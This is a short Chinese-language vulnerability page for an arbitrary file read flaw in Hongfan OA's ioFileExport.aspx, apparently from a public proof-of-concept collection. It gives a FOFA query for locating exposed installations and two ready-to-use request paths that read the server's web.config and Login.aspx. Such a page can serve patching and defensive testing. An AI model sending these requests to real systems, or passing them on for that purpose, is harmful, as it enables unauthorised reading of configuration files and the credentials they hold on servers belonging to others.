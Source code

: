 # 红帆OA ioFileExport.aspx 任意文件读取漏洞

## 漏洞描述

红帆OA ioFileExport.aspx文件存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器敏感信息

## 漏洞影响

```
红帆OA
```

## FOFA

```
app="红帆-ioffice"
```

## 漏洞复现

登录页面

![image-20220520142002215](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205201420294.png)

验证POC, 读取web.config文件

```
/ioffice/prg/set/iocom/ioFileExport.aspx?url=/ioffice/web.config&filename=test.txt&ContentType=application/octet-stream
```

![image-20220520142019955](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205201420011.png)

```
/ioffice/prg/set/iocom/ioFileExport.aspx?url=/ioffice/Login.aspx&filename=test.txt&ContentType=application/octet-stream
```

![image-20220520142034423](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205201420478.png)
